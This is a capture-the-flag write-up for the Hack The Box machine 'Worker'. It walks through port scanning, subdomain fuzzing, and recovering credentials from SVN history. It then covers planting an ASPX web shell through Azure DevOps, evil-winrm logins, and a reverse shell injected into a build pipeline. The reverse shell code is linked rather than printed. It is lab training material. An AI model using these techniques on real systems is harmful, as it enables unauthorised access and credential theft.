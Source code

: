 ```yaml
---
icon: /assets/avatars/worker.png
title: Worker Writeup
author: Valerio Casalino
style: fill
color: primary
tags: [Writeups, Hackthebox]
description: <img src="/assets/avatars/unbalanced.png"> Writeup for Worker (Hackthebox)
---
```


# Worker

I'm tired of saying that every time... Let's start with `nmap`:

```bash
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.203 | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -sC -sV -p $ports 10.10.10.203
...
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3690/tcp open  svnserve Subversion
5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
```

Going to port 80, we find the default Microsoft IIS welcome page:

![image-20201220024433640](/assets/worker/image-20201220024433640.png)

Let's enumerate the `svn` service:

```bash
> svn info svn://10.10.10.203
Path: .
URL: svn://10.10.10.203
Relative URL: ^/
Repository Root: svn://10.10.10.203
Repository UUID: 2fc74c5a-bc59-0744-a2cd-8b7d1d07c9a1
Revision: 5
Node Kind: directory
Last Changed Author: nathen
Last Changed Rev: 5
Last Changed Date: 2020-06-20 15:52:00 +0200 (Sat, 20 Jun 2020)
```

We know that there is an user named `nathen` and that this is a `svn` location! Now let's list and download the content (if we can):

```bash
> svn list svn://10.10.10.203/
dimension.worker.htb/
moved.txt
> svn export svn://10.10.10.203/
...
> cat moved.txt
This repository has been migrated and will no longer be maintaned here.
You can find the latest version at: http://devops.worker.htb

// The Worker team :)
```

Now we have `moved.txt` and the source code for what it seems to be a website named `dimension.worker.htb`. Now... In that folder you'll find info about every subdomain of this thing... I checked all them out so you don't have to :) .

They could have been found by subdomain enumeration, using a good wordlist (like [this one](https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/subdomains-top1million-110000.txt)) and `wfuzz`:

```bash
wfuzz -c -w ./subdomains-top1million-110000.txt -u 'http:/assets/worker.htb' -H "Host: FUZZ.worker.htb" --hw 55 --hc 400
...
alpha
story
cartoon
lens
dimension
spectral
twenty
...
```

Anyway... going on with SVN, we want to checkout the repo and see what's inside:

```bash
> svn checkout svn://10.10.10.203/
...
> svn log
------------------------------------------------------------------------
r5 | nathen | 2020-06-20 15:52:00 +0200 (Sat, 20 Jun 2020) | 1 line

Added note that repo has been migrated
------------------------------------------------------------------------
r4 | nathen | 2020-06-20 15:50:20 +0200 (Sat, 20 Jun 2020) | 1 line

Moving this repo to our new devops server which will handle the deployment for us
------------------------------------------------------------------------
r3 | nathen | 2020-06-20 15:46:19 +0200 (Sat, 20 Jun 2020) | 1 line

-
------------------------------------------------------------------------
r2 | nathen | 2020-06-20 15:45:16 +0200 (Sat, 20 Jun 2020) | 1 line

Added deployment script
------------------------------------------------------------------------
r1 | nathen | 2020-06-20 15:43:43 +0200 (Sat, 20 Jun 2020) | 1 line

First version
------------------------------------------------------------------------
```

We didn't see a deployment script in this version, so let's take a look:

```bash
> svn checkout -r 2 svn://10.10.10.203/
D    moved.txt
A    deploy.ps1
Checked out revision 2.
> cat deploy.ps1
$user = "nathen"
$plain = "wendel98"
$pwd = ($plain | ConvertTo-SecureString)
$Credential = New-Object System.Management.Automation.PSCredential $user, $pwd
$args = "Copy-Site.ps1"
Start-Process powershell.exe -Credential $Credential -ArgumentList ("-file $args")
```

Spoiler alert: nathen:wendel98 are creds to get past the http authentication in http://devops.worker.htb.

Going to that web location and authenticating gives us a dashboard in the Azure DevOps:

![image-20201220134345531](/assets/worker/image-20201220134345531.png)

Going around we find the code that is being deployed for `spectral.worker.htb` as a repository, so the normal thing to do is uploading a web shell! I chose [this one](https://github.com/xl7dev/WebShell/blob/master/Aspx/ASPX%20Shell.aspx). From [this page](http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral/branches), add a branch, put your file or code and initiate a pull request (choose a work item from Boards > Work Items), then from [this page](http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral/pullrequests?_a=mine) select your pull request and accept it from the top menu. Then, visiting the page you'll get a webshell! From that it is a good idea to initiate a reverse shell (the repo resets itself pretty quickly). Use the `powershell` reverse shell to go ahead (refer to [this link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) for the code). 

![image-20201220141727852](/assets/worker/image-20201220141727852.png)

List the drives mounted in the system with:

```powershell
# https://www.thewindowsclub.com/list-drives-using-command-prompt-powershell-windows
wmic logicaldisk get name
Name
C:
W:
```

Then, looking in the config files `svnrepos/www/conf`, we can see some (valid) credentials: `robisl:wolves11`. NB: use `dir C:\Users\\` to see valid users! `evil-winrm` is your friend here!

```bash
evil-winrm -i 10.10.10.203 -u robisl -p wolves11
# Get your flag ;)
```

Back to `devops.worker.htb`, if we use the creds to pass the http auth, we'll be interacting with `robisl` dashboard.

We're going to create a Pipeline: Pipelines > New Pipeline > Azure Repos Git > PartsUnlimited > Starter Pipeline. In the appearing YAML file delete `pool: "Default"` since we don't have a default pool, then put the same reverse shell code you used before in the `script` section. To use `powershell`, refer to [MS guide](https://docs.microsoft.com/en-us/azure/devops/pipelines/tasks/utility/powershell?view=azure-devops).

![image-20201220151739539](/assets/worker/image-20201220151739539.png)

Save and run it on new branch! (after initiating a listener on the attacker machine). It will not be immediate, but after a couple of seconds, or minutes...

![image-20201220152625358](/assets/worker/image-20201220152625358.png)

Ps. if it doesn't work, try other reverse shell implementations... Anyway... profit!
